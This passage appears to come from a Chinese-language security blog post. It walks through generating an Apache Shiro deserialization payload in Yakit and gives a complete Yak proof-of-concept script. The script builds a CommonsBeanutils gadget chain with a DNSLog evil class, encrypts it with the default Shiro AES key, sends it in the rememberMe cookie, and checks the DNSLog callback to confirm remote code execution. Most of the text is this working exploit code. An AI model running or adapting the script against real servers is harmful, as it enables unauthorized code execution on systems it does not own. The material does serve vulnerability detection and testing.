 ![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc14ASY5e0oN3CmwzbPIJaAehFoyCnWowvr8h2bB9hM1Hxl03LkyOZzHKDzGXvVaa9695iccMN2OXQ/640?wx_fmt=png&from=appmsg "")  
  
可以看到key和利用链  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZc14ASY5e0oN3CmwzbPIJaAKuQFVfenibOdBuOicpu8FHO5anrvUmxc3q99MUgtFPhRB68p0YSqea0A/640?wx_fmt=png&from=appmsg "")  
  
打开Yso-Java Hack模块，选择CB192NoCC链和DNSLog恶意类，点击生成。在右侧源码部分可以看到自动生成的 "用于生成payload的yak代码"，注释部分包含了对shiro payload加密的代码，右上角直接发送到Yak Runner。  
  
**对代码稍加修改就得到了POC：**  
```
target = cli.String("u")
log.info("检测目标: %s ", target)
domain,token = risk.NewDNSLogDomain()~
className = randstr(4)
log.setLevel("info")
// 生成payload
gadgetObj,err = yso.GetCommonsBeanutils192NOCCJavaObject(yso.useDNSLogEvilClass(domain),yso.obfuscationClassConstantPool(),yso.evilClassName(className))
if err {
    log.error("%v",err)
    return
}
gadgetBytes,err = yso.ToBytes(gadgetObj)
if err {
    log.error("%v",err)
    return
}
// 加密payload
base64Key = "kPH+bIxk5D2deZiIxcaaaA==" // base64编码的key
key,_ = codec.DecodeBase64(base64Key) // 生成key
payload = codec.PKCS5Padding(gadgetBytes, 16) // 加密payload
encodePayload = codec.AESCBCEncrypt(key, payload, nil)[0]
finalPayload = codec.EncodeBase64(append(key, encodePayload...))
// 发送payload
rsp,err = http.Get(target, http.cookie("rememberMe=%s"%finalPayload))
if err != nil{
    log.error("发送payload失败")
    return
}
log.info("发送Payload成功")
// dnslog回显检测
res,err = risk.CheckDNSLogByToken(token)
if len(res) > 0{
    log.info("目标 %s 存在Shiro RCE漏洞",target)
}else{
    log.info("目标不存在RCE漏洞")
}
```  
```

```  
  